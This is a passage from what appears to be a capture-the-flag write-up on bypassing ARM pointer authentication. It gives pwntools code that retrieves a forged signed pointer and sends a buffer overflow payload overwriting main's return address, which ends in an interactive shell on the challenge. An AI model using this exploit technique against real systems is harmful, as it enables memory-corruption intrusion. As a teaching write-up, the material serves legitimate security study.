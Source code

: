 Next, we can call the `print_contract()` function to retrieve the “signature” on the contract. This is actually the forged pointer that we created.

```
# ...

# wait until we are at the menu, then print the contract
print("Reading forged pointer...")
p.readuntil("4. Quit")
p.sendline("2")

# save the text version of the signed pointer
p.readuntil("SIGNED: ")
pac = p.readuntil('\n')
print("Got authenticated pointer: %s" % pac)

# convert our forged pac into a "raw" form we can use in our exploit!
pac_as_bytes = p64(int(pac, 16))

# ...


```

At this point, we’re ready to put everything together and solve the challenge! All that’s left to do is send a payload to smash main’s authenticated return-address with our newly signed authenticated pointer.

```
# ...

# the return-address overwrite payload
payload  = "A" * 0xb8
payload += "B" * 8         # FP
payload += pac_as_bytes    # LR

# send up the final payload which contains the forged return-address
p.readuntil("4. Quit")
p.sendline("1")
p.readuntil("contract:")
p.sendline(payload)
p.readuntil("name:")
p.sendline("C"*8)

# quit the program / force the use of our corrupted LR
p.sendline("4")

# release control to the user / terminal
p.interactive()


```

Click to enable interactive challenge
